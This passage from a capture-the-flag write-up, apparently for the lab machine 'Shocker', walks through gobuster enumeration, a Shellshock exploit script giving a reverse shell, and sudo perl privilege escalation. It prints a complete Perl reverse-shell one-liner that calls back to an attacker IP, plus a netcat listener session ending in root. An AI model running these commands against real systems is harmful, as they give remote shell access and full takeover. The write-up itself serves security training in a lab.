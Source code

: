 ```
===============================================================
2021/07/29 21:06:47 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
                                               
===============================================================
2021/07/29 21:08:24 Finished
===============================================================
```

# Exploitation w/o Metasploit
Glancing through the exploit script, we can see that it needs some input paramaters for the local and remote host, and the page on which the exploit will be run. We trigger the script and get a shell as the user Shelly.

```
$ ./34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.16.173 lport=4444 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

10.10.10.56> whoami
shelly
```
## **Privilege Escalation**
The escalation from user privilege to root is trivial. Checking the privilege of Shelly and what commands she is allowed to run on the machine, we find that Shelly can run perl  with sudo privilege.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Now, all we have to do is run perl to start a reverse shell, and set up a netcat listener on our system to get the root shell.

### **Perl Reverse Shell**
```
10.10.10.56> sudo /usr/bin/perl -e 'use Socket;$i="10.10.16.173";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### **Netcat Listener**
```
$ nc -nvlp 5555   
listening on [any] 5555 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.56] 39964
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

